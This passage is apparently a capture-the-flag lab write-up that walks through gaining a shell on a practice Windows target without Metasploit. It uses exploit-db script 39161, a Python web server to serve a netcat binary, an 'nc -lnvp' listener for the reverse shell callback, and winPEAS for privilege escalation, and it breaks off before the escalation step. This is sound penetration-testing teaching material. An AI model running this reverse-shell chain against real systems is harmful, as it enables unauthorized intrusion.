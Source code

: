 # Access and Escalation (without Metasploit)

(**Note** - I reset the original machine before starting this section).

**Target:** _10.10.125.153_

We will now take a look at gaining access and privilege escalation without the use of Metasploit. For this, we will utilise PowerShell and winPEAS to enumerate the system and collect the relevant information to escalate to _root_.

We will use the same CVE, but this time use the python script [here](https://www.exploit-db.com/exploits/39161).

In order for this attack to work, it will require a web server and netcat listener to be active at the same time. If you do not already have a netcat static binary on your system then you can download this from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).

We will also use winPEAS, which can be downloaded [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Release).

For simplicity, I created a folder named _steel_ containing the exploit script (_39161.py_), netcat binary (_nc.exe_) and winPEAS (winPEAS.exe)

![](https://blog.razrsec.uk/content/images/2020/05/image-80.png)

Before the attack can run, we need to edit the exploit with details of our local IP address and local port number being used for our listener:

![](https://blog.razrsec.uk/content/images/2020/05/image-71.png)

3 separate terminal windows are then required to complete the attack.

Terminal 1 - python HTTP web server

```
python -m SimpleHTTPServer 80
```

Terminal 2 - netcat listener

```
nc -lnvp 1443
```

Terminal 3 - to execute the attack

```
python 39161.py 10.10.125.153 8080
```

**Note:** the final command needs to be run TWICE - the first instance will pull the netcat binary to the target and the second will execute the payload to gain a callback within the listener.

![](https://blog.razrsec.uk/content/images/2020/05/image-79.png)

Now that we have a shell on the system we can pull winPEAS to it using PowerShell:
